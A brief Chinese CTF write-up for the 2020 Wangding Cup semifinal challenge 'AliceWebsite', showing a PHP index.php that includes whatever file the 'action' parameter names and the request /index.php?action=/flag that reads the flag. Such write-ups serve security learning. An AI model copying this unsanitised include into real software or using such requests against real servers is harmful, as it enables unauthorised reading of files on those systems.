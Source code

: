 # [网鼎杯 2020 半决赛]AliceWebsite
![](<./img/Pasted image 20230128143611.png>)

![](<./img/Pasted image 20230128144500.png>)

```php
<?php
$action = (isset($_GET['action']) ? $_GET['action'] : 'home.php');
if (file_exists($action)) {
	include $action;
} else {
	echo "File not found!";
}
?>
```

`index.php`中存在文件包含漏洞

```
/index.php?action=/flag
```

![](<./img/Pasted image 20230128144442.png>)

#Web #PHP #文件包含 